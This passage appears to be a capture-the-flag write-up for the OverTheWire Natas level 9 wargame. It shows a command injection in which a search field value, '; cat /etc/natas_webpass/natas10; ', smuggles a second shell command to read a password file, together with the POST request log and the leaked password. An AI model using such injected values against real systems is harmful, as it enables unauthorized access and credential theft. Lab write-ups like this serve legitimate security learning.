 What this is vulnerable to is a basic command injection. We can perform this in a variety of ways, but let's structure it like this:

```bash
grep -i ; cat /etc/natas_webpass/natas10; dictionary.txt
```

We inject the semicolons and the `cat` command, so that it reads the password for the next level off the system!

```
> params add needle "; cat /etc/natas_webpass/natas10; "
[🐝] Added param:
   'needle' : '; cat /etc/natas_webpass/natas10; '
```

```
> post http://natas9.natas.labs.overthewire.org needle submit               
[🐝] Sending POST request to http://natas9.natas.labs.overthewire.org...
POST request made with parameters:
   'needle' : '; cat /etc/natas_webpass/natas10; '
   'submit' : 'any'
[🐝] POST request completed. Status code: 200 (OK)
[🐝] Response captured! Type 'response show' for summary
```

```HTML
> resp show -t
<html>
<head>
-- truncated --
</head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

And there we go! In place of the `grep` command's output, we injected a `bash` command to instead `cat` the file we wanted.

Copy that into `pass10`!

---

[Back to Top](#contents)
